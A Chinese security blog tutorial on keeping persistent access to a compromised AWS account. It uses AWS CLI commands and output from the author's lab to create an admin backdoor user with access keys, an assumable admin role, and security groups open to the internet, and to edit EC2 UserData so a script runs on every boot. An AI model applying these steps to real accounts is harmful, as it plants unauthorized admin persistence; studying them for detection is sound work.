







# aws之创建后门实现持久化利用的方式-先知社区

> **来源**: https://xz.aliyun.com/news/16477  
> **文章ID**: 16477

---

# aws之创建后门实现持久化利用的方式

我们如果控制了一个高权限的用户，那我们应该如何之后才能更分别我们利用呢，当然毫无疑问就是创建一个后门了，假设我们已经有了一个高权限的用户，下面该如何利用呢？

### 创建 Access Key

emmm，这个就不多说了，key 是一个用户或者 IAM 角色的最重要的身份凭证

这里使用夸张的方法，主要是理解原理

如果我们本来就有用户，我们就直接选择一个用户

```
root@hcss-ecs-0d0e:~# aws iam list-users
{
    "Users": [
        {
            "Path": "/",
            "UserName": "lll",
            "UserId": "AIDA6K5VxxxxxxCV",
            "Arn": "arn:aws:iam::xxxx:user/lll",
            "CreateDate": "2024-12-29T08:27:03Z"
        }
    ]
}

```

我这里是一个新环境本身就没有什么用户，我们创建一个用户就好了

```
root@hcss-ecs-0d0e:~# aws iam create-user --user-name backdor
{
    "User": {
        "Path": "/",
        "UserName": "backdor",
        "UserId": "xxxx",
        "Arn": "arn:aws:iam::xxxx:user/backdor",
        "CreateDate": "2025-01-05T13:50:21Z"
    }
}

```

然后如果只是简单创建一个用户，这个用户是没有权限的

我们可以为它添加策略，而 IAM 本身就有集成的策略了比如管理员

```
root@hcss-ecs-0d0e:~# aws iam attach-user-policy --user-name backdor --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

```

然后为它创建密钥

```
root@hcss-ecs-0d0e:~# aws iam create-access-key --user-name backdor
{
    "AccessKey": {
        "UserName": "backdor",
        "AccessKeyId": "xxxxxxx",
        "Status": "Active",
        "SecretAccessKey": "xxxxxx",
        "CreateDate": "2025-01-05T13:55:03Z"
    }
}

```

这样我们只需要把这个密钥保存到本地，就可以用户这个管理员用户的权限了

查一下

```
root@hcss-ecs-0d0e:~# aws iam list-attached-user-policies --user-name backdor
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}

```

### AssumeRole

AssumeRole 是 AWS 的一种身份和访问管理（IAM）操作，用于允许一个 AWS 实体（例如 IAM 用户、角色、AWS 服务等）临时获取其他角色的权限。这个操作是通过 Security Token Service (STS) 完成的，允许一个实体假设（或扮演）指定的 IAM 角色，并获得与该角色关联的权限。

首先就需要分清楚角色和用户

IAM 用户是在 AWS 账户中为某个特定用户创建的身份。每个 IAM 用户都有一个独特的身份，并可以有一组长期的认证凭证（如 Access Key 和 Secret Key）来进行身份验证。

IAM 角色是一个虚拟身份，具有一组权限策略，允许授权某个实体（如 IAM 用户、AWS 服务、其他 AWS 账户的用户等）临时使用该角色的权限。角色没有长期的凭证，而是通过 AssumeRole 操作授予临时凭证。

所以我们可以给一个角色加上我们的 assume-role 策略

首先假设我们有一个用户，没事创建一个普通用户

```
root@hcss-ecs-0d0e:~# aws iam create-user --user-name normal
{
    "User": {
        "Path": "/",
        "UserName": "normal",
        "UserId": "AIDA6K5V74UJEFDIFKOSV",
        "Arn": "arn:aws:iam::985539798290:user/normal",
        "CreateDate": "2025-01-05T17:49:18Z"
    }
}

```

然后创建一个 AssumeRole 策略

```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::985539798290:user/normal"
      },
      "Action": "sts:AssumeRole",
      "Condition": {}
    }
  ]
}

```

我们把这个策略附加给角色

```
root@hcss-ecs-0d0e:~# vim 1.json
root@hcss-ecs-0d0e:~# pwd
/root
root@hcss-ecs-0d0e:~# aws iam create-role --role-name back2 --assume-role-policy-document file:///root/1.json
{
    "Role": {
        "Path": "/",
        "RoleName": "back2",
        "RoleId": "AROA6K5V74UJAGA3YNVDW",
        "Arn": "arn:aws:iam::985539798290:role/back2",
        "CreateDate": "2025-01-05T18:08:54Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::985539798290:user/normal"
                    },
                    "Action": "sts:AssumeRole",
                    "Condition": {}
                }
            ]
        }
    }
}

```

但是我们虽然可以成为这个角色，可是这个角色没有什么权限，所以我们还得赋予这个角色权限

```
root@hcss-ecs-0d0e:~# aws iam attach-role-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --role-name back2

```

然后我们就可以来成为这个角色了

又会涉及倒 AWS STS

**AWS STS** (Security Token Service) 的 assume-role 操作是 AWS 中一个非常关键的功能，允许用户或服务“假设”一个角色（Role），并获得该角色的临时安全凭证。这些凭证可以被用于访问与该角色相关的 AWS 资源，而无需直接使用该角色的长期凭证（如 Access Key 和 Secret Key）。

在 Account A 的用户通过 sts:assume-role 来假设 Account B 中的角色：

```
aws sts assume-role \
--role-arn arn:aws:iam::AccountB-ID:role/cross-account-role \
--role-session-name cross-account-session

```

在这里我们可以这样

所以当我们登入后门用户的时候，我们就可以演办我们的的后门角色

```
aws sts assume-role --role-arn arn:aws:iam::xxxxxxxxxxxx:role/back2 --role-session-name back2-session --profile 后门用户的配置文件

```

返回大概如下内容

```
{
    "Credentials": {
        "AccessKeyId": "ASIA....",
        "SecretAccessKey": "secret....",
        "SessionToken": "session....",
        "Expiration": "2025-01-01T12:00:00Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "ARO....",
        "Arn": "xxxx"
    }
}

```

缺点就是时间问题，因为这个是临时的凭证

### 更改安全组

EC2 安全组（Security Group） 是一种虚拟防火墙，用于控制进出 EC2 实例的流量。安全组主要通过定义规则来决定哪些流量可以被允许或拒绝，这些规则基于 IP 地址、端口和协议。安全组在 EC2 实例的网络层（VPC）上操作，并且可以在实例启动时或之后随时应用、修改。

这个其实和大家的云服务器的那个安全组是一样的



其中记录着我们的出入站规则  


夸张表现的话就是把这个 EC2 实例的安全组直接改为全开放

我们可以通过指定 0.0.0.0/0 作为 IP 地址范围来允许来自整个互联网的入口流量。

第一步就是创建新的安全组

```
root@hcss-ecs-0d0e:~# aws ec2 create-security-group --group-name my-security-group --description "My new security group"
{
    "GroupId": "sg-00380a8bac3c737b8"
}

```

这里比如我们就应许 22 和 80 来实验

```
root@hcss-ecs-0d0e:~# aws ec2 authorize-security-group-ingress --group-id sg-00380a8bac3c737b8 --protocol tcp --port 22 --cidr 0.0.0.0/0
{
    "Return": true,
    "SecurityGroupRules": [
        {
            "SecurityGroupRuleId": "sgr-07ba5cdcd4a62f693",
            "GroupId": "sg-00380a8bac3c737b8",
            "GroupOwnerId": "985539798290",
            "IsEgress": false,
            "IpProtocol": "tcp",
            "FromPort": 22,
            "ToPort": 22,
            "CidrIpv4": "0.0.0.0/0"
        }
    ]
}

```

0.0.0.0/0 就是代表任意 IP 的意思

然后再开一个 80 端口

```
root@hcss-ecs-0d0e:~# aws ec2 authorize-security-group-ingress --group-id sg-00380a8bac3c737b8 --protocol tcp --port 80 --cidr 0.0.0.0/0
{
    "Return": true,
    "SecurityGroupRules": [
        {
            "SecurityGroupRuleId": "sgr-0273f7c67fb99d09f",
            "GroupId": "sg-00380a8bac3c737b8",
            "GroupOwnerId": "985539798290",
            "IsEgress": false,
            "IpProtocol": "tcp",
            "FromPort": 80,
            "ToPort": 80,
            "CidrIpv4": "0.0.0.0/0"
        }
    ]
}

```

然后我们可以查看这个安全组

```
aws ec2 describe-security-groups
        {
            "Description": "My new security group",
            "GroupName": "my-security-group",
            "IpPermissions": [
                {
                    "FromPort": 80,
                    "IpProtocol": "tcp",
                    "IpRanges": [
                        {
                            "CidrIp": "0.0.0.0/0"
                        }
                    ],
                    "Ipv6Ranges": [],
                    "PrefixListIds": [],
                    "ToPort": 80,
                    "UserIdGroupPairs": []
                },
                {
                    "FromPort": 22,
                    "IpProtocol": "tcp",
                    "IpRanges": [
                        {
                            "CidrIp": "0.0.0.0/0"
                        }
                    ],
                    "Ipv6Ranges": [],
                    "PrefixListIds": [],
                    "ToPort": 22,
                    "UserIdGroupPairs": []
                }
            ],
            "OwnerId": "985539798290",
            "GroupId": "sg-00380a8bac3c737b8",
            "IpPermissionsEgress": [
                {
                    "IpProtocol": "-1",
                    "IpRanges": [
                        {
                            "CidrIp": "0.0.0.0/0"
                        }
                    ],
                    "Ipv6Ranges": [],
                    "PrefixListIds": [],
                    "UserIdGroupPairs": []
                }
            ],
            "VpcId": "vpc-07e3c3bd4b70be619"
        }

```

这里会有很多安全组，只截取了我们创建的

然后我们就要把这个安全组加给我们的 EC2

首先是查询 EC2 实例的 id

```
root@hcss-ecs-0d0e:~# aws ec2 describe-instances
{
    "Reservations": [
        {
            "Groups": [],
            "Instances": [
                {
                    "AmiLaunchIndex": 0,
                    "ImageId": "ami-0e2c8caa4b6378d8c",
                    "InstanceId": "i-0183d702137794a80",
                    "InstanceType": "t2.micro",
                    "KeyName": "mima",
                    "LaunchTime": "2024-12-29T14:17:07.000Z",
                    "Monitoring": {
                        "State": "disabled"
                    },
                    "Placement": {
                        "AvailabilityZone": "us-east-1b",
                        "GroupName": "",
                        "Tenancy": "default"
                    },
                    "PrivateDnsName": "ip-172-31-92-251.ec2.internal",
                    "PrivateIpAddress": "172.31.92.251",
                    "ProductCodes": [],
                    "PublicDnsName": "ec2-44-202-52-69.compute-1.amazonaws.com",
                    "PublicIpAddress": "44.202.52.69",
                    "State": {
                        "Code": 16,
                        "Name": "running"
                    },
                    "StateTransitionReason": "",
                    "SubnetId": "subnet-08399d31d84ecffb5",
                    "VpcId": "vpc-07e3c3bd4b70be619",
                    "Architecture": "x86_64",
                    "BlockDeviceMappings": [
                        {
                            "DeviceName": "/dev/sda1",
                            "Ebs": {
                                "AttachTime": "2024-12-29T14:17:07.000Z",
                                "DeleteOnTermination": true,
                                "Status": "attached",
                                "VolumeId": "vol-07fcdb968215d473c"
                            }
                        }
                    ],
                    "ClientToken": "199864a8-eb4c-46d8-869a-7343f9bafca6",
                    "EbsOptimized": false,
                    "EnaSupport": true,
                    "Hypervisor": "xen",
                    "NetworkInterfaces": [
                        {
                            "Association": {
                                "IpOwnerId": "amazon",
                                "PublicDnsName": "ec2-44-202-52-69.compute-1.amazonaws.com",
                                "PublicIp": "44.202.52.69"
                            },
                            "Attachment": {
                                "AttachTime": "2024-12-29T14:17:07.000Z",
                                "AttachmentId": "eni-attach-0562828580344843a",
                                "DeleteOnTermination": true,
                                "DeviceIndex": 0,
                                "Status": "attached",
                                "NetworkCardIndex": 0
                            },
                            "Description": "",
                            "Groups": [
                                {
                                    "GroupName": "launch-wizard-1",
                                    "GroupId": "sg-0d08b93ddf88aa6b2"
                                }
                            ],
                            "Ipv6Addresses": [],
                            "MacAddress": "12:c1:d2:8f:06:d7",
                            "NetworkInterfaceId": "eni-0a348660b7386a15a",
                            "OwnerId": "985539798290",
                            "PrivateDnsName": "ip-172-31-92-251.ec2.internal",
                            "PrivateIpAddress": "172.31.92.251",
                            "PrivateIpAddresses": [
                                {
                                    "Association": {
                                        "IpOwnerId": "amazon",
                                        "PublicDnsName": "ec2-44-202-52-69.compute-1.amazonaws.com",
                                        "PublicIp": "44.202.52.69"
                                    },
                                    "Primary": true,
                                    "PrivateDnsName": "ip-172-31-92-251.ec2.internal",
                                    "PrivateIpAddress": "172.31.92.251"
                                }
                            ],
                            "SourceDestCheck": true,
                            "Status": "in-use",
                            "SubnetId": "subnet-08399d31d84ecffb5",
                            "VpcId": "vpc-07e3c3bd4b70be619",
                            "InterfaceType": "interface"
                        }
                    ],
                    "RootDeviceName": "/dev/sda1",
                    "RootDeviceType": "ebs",
                    "SecurityGroups": [
                        {
                            "GroupName": "launch-wizard-1",
                            "GroupId": "sg-0d08b93ddf88aa6b2"
                        }
                    ],
                    "SourceDestCheck": true,
                    "Tags": [
                        {
                            "Key": "Name",
                            "Value": "awsec2"
                        }
                    ],
                    "VirtualizationType": "hvm",
                    "CpuOptions": {
                        "CoreCount": 1,
                        "ThreadsPerCore": 1
                    },
                    "CapacityReservationSpecification": {
                        "CapacityReservationPreference": "open"
                    },
                    "HibernationOptions": {
                        "Configured": false
                    },
                    "MetadataOptions": {
                        "State": "applied",
                        "HttpTokens": "required",
                        "HttpPutResponseHopLimit": 2,
                        "HttpEndpoint": "enabled",
                        "HttpProtocolIpv6": "disabled",
                        "InstanceMetadataTags": "disabled"
                    },
                    "EnclaveOptions": {
                        "Enabled": false
                    },
                    "BootMode": "uefi-preferred",
                    "PlatformDetails": "Linux/UNIX",
                    "UsageOperation": "RunInstances",
                    "UsageOperationUpdateTime": "2024-12-29T14:17:07.000Z",
                    "PrivateDnsNameOptions": {
                        "HostnameType": "ip-name",
                        "EnableResourceNameDnsARecord": true,
                        "EnableResourceNameDnsAAAARecord": false
                    }
                }
            ],
            "OwnerId": "985539798290",
            "ReservationId": "r-0bbb1810effebf69b"
        }
    ]
}

```

得到 InstanceId 的值

然后我们添加安全组

```
aws ec2 modify-instance-attribute --instance-id i-0183d702137794a80 --groups sg-00380a8bac3c737b8

```



可以看到是已经加上了

当然操作后记得删除

### EC2 UserData 脚本

在 EC2 实例中，UserData 脚本是一个用于初始化实例的配置脚本。当你启动一个 EC2 实例时，UserData 脚本会在实例首次启动时自动运行。

这个就给了我们可乘之机

参考<https://docs.aws.amazon.com/zh_cn/AWSEC2/latest/UserGuide/user-data.html>



脚本中必须配置一个关键点

```
#cloud-config
cloud_final_modules:
- [scripts-user, always]

```

这个配置表示脚本在每次重启时运行。不然只有第一次的时候运行

```
https://us-east-1.console.aws.amazon.com/ec2/home?region=us-east-1#EditUserData:instanceId=i-0183d702137794a80

```

  
这里可以编辑用户的数据

在编辑之前需要停止我们的实例

然后我们连接实列观察



当然留后门的话其实我们可以比如反弹 shell，但是安全组必须应许，或者写公钥等其他渗透的方法，触类旁通都 ok 的

当然我们可以使用命令行

一样的首先需要停止我们的实列

```
root@hcss-ecs-0d0e:~# aws ec2 stop-instances --instance-ids i-xxx
{
    "StoppingInstances": [
        {
            "CurrentState": {
                "Code": 64,
                "Name": "stopping"
            },
            "InstanceId": "i-xxxx",
            "PreviousState": {
                "Code": 16,
                "Name": "running"
            }
        }
    ]
}

```

我们可以查看脚本

```
root@hcss-ecs-0d0e:~# aws ec2 describe-instance-attribute --instance-id i-0183d702137794a80 --attribute userData  --query "UserData.Value"
"Q29udGVudC1UeXBlOiBtdWx0aXBhcnQvbWl4ZWQ7IGJvdW5kYXJ5PSIvLyIKTUlNRS1WZXJzaW9uOiAxLjAKCi0tLy8KQ29udGVudC1UeXBlOiB0ZXh0L2Nsb3VkLWNvbmZpZzsgY2hhcnNldD0idXMtYXNjaWkiCk1JTUUtVmVyc2lvbjogMS4wCkNvbnRlbnQtVHJhbnNmZXItRW5jb2Rpbmc6IDdiaXQKQ29udGVudC1EaXNwb3NpdGlvbjogYXR0YWNobWVudDsgZmlsZW5hbWU9ImNsb3VkLWNvbmZpZy50eHQiCgojY2xvdWQtY29uZmlnCmNsb3VkX2ZpbmFsX21vZHVsZXM6Ci0gW3NjcmlwdHMtdXNlciwgYWx3YXlzXQoKLS0vLwpDb250ZW50LVR5cGU6IHRleHQveC1zaGVsbHNjcmlwdDsgY2hhcnNldD0idXMtYXNjaWkiCk1JTUUtVmVyc2lvbjogMS4wCkNvbnRlbnQtVHJhbnNmZXItRW5jb2Rpbmc6IDdiaXQKQ29udGVudC1EaXNwb3NpdGlvbjogYXR0YWNobWVudDsgZmlsZW5hbWU9InVzZXJkYXRhLnR4dCIKCiMhL2Jpbi9iYXNoCnRvdWNoIC90bXAvc3VjY2VzcwotLS8vLS0="

```

  
解码后就是我们的数据

参考  
<https://mystic0x1.github.io/posts/methods-to-backdoor-an-aws-account/#persistence---ec2-userdata-script>
